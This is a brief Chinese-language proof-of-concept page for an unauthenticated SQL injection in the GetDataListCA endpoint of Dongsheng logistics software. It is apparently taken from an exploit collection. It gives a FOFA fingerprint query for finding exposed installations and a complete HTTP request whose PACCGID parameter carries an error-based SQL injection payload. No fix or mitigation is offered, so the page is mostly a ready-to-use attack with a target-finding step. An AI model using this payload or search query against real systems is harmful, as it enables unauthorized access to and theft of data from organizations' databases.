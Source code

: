 ## 东胜物流软件GetDataListCA存在SQL注入漏洞

东胜物流软件GetDataListCA存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用SQL注入漏洞获取数据库中的信息。

## fofa

```javascript
body="FeeCodes/CompanysAdapter.aspx" || body="dhtmlxcombo_whp.js" || body="dongshengsoft" || body="theme/dhtmlxcombo.css"
```

## poc

```javascript
GET /MvcShipping/MsCwGenlegAccitems/GetDataListCA?PACCGID=1%27%29+AND+6782+IN+%28SELECT+%28CHAR%28113%29%2BCHAR%28113%29%2BCHAR%28120%29%2BCHAR%28118%29%2BCHAR%28113%29%2B%28SELECT+%28CASE+WHEN+%286782%3D6782%29+THEN+CHAR%2849%29+ELSE+CHAR%2848%29+END%29%29%2BCHAR%28113%29%2BCHAR%2898%29%2BCHAR%28106%29%2BCHAR%28106%29%2BCHAR%28113%29%29%29--+OevW HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

![image-20241114140448209](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411141404276.png)
